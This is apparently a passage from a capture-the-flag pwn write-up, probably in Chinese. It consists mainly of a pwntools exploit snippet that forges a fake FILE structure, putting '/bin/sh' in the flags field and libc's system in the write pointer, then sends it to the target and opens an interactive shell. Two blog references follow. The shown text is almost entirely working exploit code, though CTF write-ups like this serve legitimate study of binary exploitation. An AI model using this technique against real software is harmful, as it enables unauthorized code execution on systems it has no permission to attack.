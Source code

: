     #gdb.attach(io)
    fake_IO  = b'/bin/sh\x00'                       # flags
    fake_IO += p64(0)                               # rpos
    fake_IO += p64(0)                               # rend
    fake_IO += p64(3)             # close
    fake_IO += p64(1)                               # wend
    fake_IO += p64(1)                               # wpos
    fake_IO += p64(0)                               # mustbezero_1
    fake_IO += p64(0)                               # wbase
    fake_IO += p64(0)                               # read
    fake_IO += p64(libc.sym['system'])  # write
    ## stdin->wpos != stdin->wbase
    io.sendline(fake_IO)
    #gdb.attach(io)
    io.interactive()


## 参考

[https://blog.csdn.net/weixin_45209963/article/details/124423573](https://blog.csdn.net/weixin_45209963/article/details/124423573)

[https://eqqie.cn/index.php/archives/1931](https://eqqie.cn/index.php/archives/1931)

